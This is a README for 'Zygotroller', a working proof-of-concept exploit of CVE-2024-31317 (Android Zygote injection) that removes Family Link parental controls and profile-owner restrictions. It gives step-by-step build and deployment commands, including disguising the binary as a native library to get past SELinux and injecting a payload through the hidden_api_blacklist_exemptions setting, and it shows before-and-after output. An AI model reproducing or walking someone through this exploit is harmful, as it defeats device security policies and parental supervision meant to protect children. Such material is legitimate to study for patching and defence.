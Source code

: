 # Zygotroller
## Remove profile owners/Family Link on ANY pre June 2024 Developer Mode device (Android 12+)
Zygotroller is a proof-of-concept that can remove a profile owner and associated restrictions with CVE-2024-31317's Zygote injection bug.
It requires developer mode and the latest security patch to be prior to June 2024.

Google's parental control system, Family Link, is shown as an example in this repo.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`lunch aosp_cf_arm64_only_phone-aosp_current-eng` (if you're testing this on an emulator, change arm64 to x86_64)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

You'll want to do the same thing with setUserRestriction:
```
// Transaction code 132 was setUserRestriction for my device
dpm->transact(132, data2, &reply2);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Now we need to make an app that contains this binary as a "shared library" that is actually just the Zygotroller executable, so SELinux lets us execute it.
You can use my "CopyNativeLib" repo for that:

`git clone https://github.com/rifting/CopyNativeLib.git`

Then rename your Zygotroller binary to `libzygotroller.so` and put it in app/src/main/jniLibs/arm64-v8a (I'm assuming that will be the architecture of your phone). Build the APK in android studio and install to your device with `adb install`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now take a look at payload.sh, on this line

`inject='\n--setuid=10090...`

Change the UID here from 10090 to whatever your UID from the dumpsys command was. If it's the same ID, leave it.

Look a little further on that line and you'll see 

`...echo zYg0te $(LD_LIBRARY_PATH=[path to your native lib] [path to your native lib])...`

(three dots used to show truncation)

You need to replace these with the paths to the native library you've just installed to the device. Run `pm path com.rifting.copynativelib`.
The path to the file will be the parent directory of the APK shown as the output of the command, + `lib/arm64-v8a/libzygotroller.so`. LD_LIBRARY_PATH needs to be the directory of the library, and then the actual path to the library should come after that.
So that line will end up looking something like this:

`...echo zYg0te $(LD_LIBRARY_PATH=/data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/ /data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/libreal.so)...`

You're almost there! Push this file to /data/local/tmp

`adb push payload.sh /data/local/tmp`

Set permissions:

`chmod +x /data/local/tmp/payload.sh`

And finally, send its output into hidden_api_blacklist_exemptions!

`settings put global hidden_api_blacklist_exemptions "$(sh ./payload.sh)"`

Now set this to "0" to avoid a bootloop :)
`settings put global hidden_api_blacklist_exemptions 0`

You should see that the Family Link profile owner + all associated restrictions have been removed.
Go into settings and manage accounts, and remove the supervised account from the device. Congratulations!

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions>
    <restrictions_user user_id="0">
      <restrictions no_factory_reset="true" no_config_location="true" no_add_clone_profile="true" no_safe_boot="true" no_config_credentials="true" no_config_date_time="true" />
    </restrictions_user>
  </device_policy_local_restrictions>
...
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions />
...
```


## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)

[LLeaves' awesome blog about this CVE](https://blog.lleavesg.top/article/CVE-2024-31317-Zygote)
